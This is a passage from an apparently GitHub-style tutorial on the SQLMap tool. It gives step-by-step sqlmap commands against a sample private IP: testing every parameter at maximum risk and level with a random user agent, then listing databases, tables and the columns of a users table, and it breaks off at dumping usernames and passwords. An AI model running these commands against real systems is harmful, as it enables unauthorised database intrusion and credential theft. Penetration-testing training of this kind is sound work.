 #### Test All Parameters Automatically:

```bash
sqlmap -u "http://example.com/index.php?id=1&name=test&age=20" --batch --random-agent --dbs
```

- SQLMap will iterate through each parameter and test for vulnerabilities.

## Practical Example

To better understand how SQLMap works in a real-world scenario, here is a practical example demonstrating the steps involved in enumerating and extracting data from a target database.

### Step-by-Step Guide

Given the IP address of the target, you need to adjust the SQLMap command to point to the correct target URL. Here’s how to adapt your command:

**Target URL**: http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example

**Vulnerable Parameter**: param

#### Enumerate Databases

This command will enumerate all databases on the target server.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --dbs -p param
```

#### Select a Target Database

After identifying the databases, select the relevant database (e.g., example_db).

#### Enumerate Tables

List all tables in the selected database.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db --tables -p param
```

#### Enumerate Columns

Choose a table, such as users, and list all columns.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db -T users --columns -p param
```

#### Dump Data

Dump data from columns of interest, such as username and password.
